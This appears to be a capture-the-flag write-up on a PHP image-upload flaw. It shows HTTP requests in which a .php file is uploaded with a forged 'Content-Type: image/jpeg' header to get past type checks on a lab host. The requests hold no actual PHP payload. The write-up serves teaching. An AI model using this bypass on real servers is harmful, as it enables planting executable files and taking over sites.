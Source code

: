 ## UPLOAD IMAGE PHP

This vulnerability revolves around uploading a file that you are no supossed to be able to upload.
</br>
If you upload an image and inspect element, you can read the request you've sent</br>
<img src="./images/1.png">
```
POST /index.php?page=upload HTTP/1.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cache-Control: max-age=0
Connection: keep-alive
Content-Length: 47292
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarySsLntzim2PBLXcHo
Cookie: I_am_admin=68934a3e9455fa72420237eb05902327
Host: 10.13.8.6:2222
Origin: http://10.13.8.6:2222
Referer: http://10.13.8.6:2222/index.php?page=upload
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36
```

And if you inspect its payload you will see how the image and the form data are uploaded

```
------WebKitFormBoundarySsLntzim2PBLXcHo
Content-Disposition: form-data; name="MAX_FILE_SIZE"

100000
------WebKitFormBoundarySsLntzim2PBLXcHo
Content-Disposition: form-data; name="uploaded"; filename="51f3O5BDZ9L.jpeg"
Content-Type: image/jpeg


------WebKitFormBoundarySsLntzim2PBLXcHo
Content-Disposition: form-data; name="Upload"

Upload
------WebKitFormBoundarySsLntzim2PBLXcHo--
```

This is sent in the body part of the request, so you should be able to see the photo in the format of a monumental string. As you can see there is no random string anywhere, that because to simplify the reading of this or some oder pedagogical reason the body doesnt have the string. But it should be right bellow Content-Type: image/jpeg</br>

Usually when you can upload files to a server, the admin of the server just wants certain types of files to be able to be uploaded but if you dont trust the user will just try to upload files of that type you are up for some trouble. As users can send malicious files, overwrite .php files, and so on.

We can actually do this by sending the request ourselves and writting the body manually. If we keep the Content-type: image/jpeg header and send a .php file the server allows that to be uploaded. We can do that by using Curl or thunderclient/postman. The body should look something like this:

```
------WebKitFormBoundaryCASCOSVACA1
Content-Disposition: form-data; name="uploaded"; filename="index.php"
Content-Type: image/jpeg


------WebKitFormBoundaryCASCOSVACA1
Content-Disposition: form-data; name="Upload"

Upload
------WebKitFormBoundaryCASCOSVACA1--
```

And the whole request should look something like this:
```
POST /index.php?page=upload HTTP/1.1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryCASCOSVACA1
Content-Length: 260

------WebKitFormBoundaryCASCOSVACA1
Content-Disposition: form-data; name="uploaded"; filename="index.php"
Content-Type: image/jpeg


------WebKitFormBoundaryCASCOSVACA1
Content-Disposition: form-data; name="Upload"

Upload
------WebKitFormBoundaryCASCOSVACA1--
```
</br>
Once this request is send you can see that the html is displaying a flag
<img src="./images/2.png">

